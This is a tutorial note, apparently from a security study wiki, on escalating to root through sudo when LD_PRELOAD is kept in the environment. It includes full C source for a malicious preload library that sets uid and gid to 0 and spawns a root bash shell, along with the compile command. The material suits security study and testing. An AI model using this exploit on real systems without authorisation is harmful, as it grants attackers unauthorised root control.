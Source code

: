 # Introduction
The `LD_PRELOAD` environment variable can be used to tell the dynamic linker to load [specific libraries](../../../Reverse%20Engineering/Binary%20Formats/ELF/Dynamic%20Linking.md) before any others. 

By default, programmes run with `sudo` will be executed in a clean, minimal environment which is specified by `env_reset` when running `sudo -l`. However, `env_keep` may be used to inherit some environment variables from the parent process. 

![](Resources/Images/Sudo%20Escalation%20via%20LD_PRELOAD/Sudo%20-l%20LD_PRELOAD.png)

If `LD_PRELOAD` is specified together with `env_keep`, then we can compile our own malicious dynamic library and set `LD_PRELOAD` to it. Therefore, when we execute a binary with `sudo`, our library will be loaded before any other library and its initialisation function will be invoked with root permissions.

## Writing the Malicious Library
Writing the library is a fairly simple task. All we need to do is write an `_init` function in a C file. This procedure will contain the code we want to be executed when the library is loaded.

```cpp
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>

void _init()
{
	unsetenv("LD_PRELOAD"); // Unset LD_PRELOAD to avoid an infinite loop
	setgid(0); // Set root permissions
	setuid(0); // Set root permissions
	
	system("/bin/bash");
}

```

We begin by unsetting the `LD_PRELOAD` variable from the environment. This is to preclude an infinite loop when `/bin/bash` is invoked. If our library didn't unset `LD_PRELOAD`, then when `/bin/bash` is called, our library will again be loaded first and then proceed onto launching `/bin/bash` yet again, which will again load our library and so on.

The next two lines set the user and group IDs to those of `root` which ensures that the next commands are run with root privileges.

Finally, `system` is called in order to spawn a bash shell.

We now need to compile this file as a shared library:

```bash
gcc -fPIC -shared -o exploit.so exploit.c -nostartfiles
```

![](Resources/Images/Sudo%20Escalation%20via%20LD_PRELOAD/GCC%20Compile%20Library.png)

At last, we can invoke any binary with `sudo` and specify the path to our library as `LD_PRELOAD`. Note that the path to the library must be specified as an absolute path.

![](Resources/Images/Sudo%20Escalation%20via%20LD_PRELOAD/Preload%20Library.png)

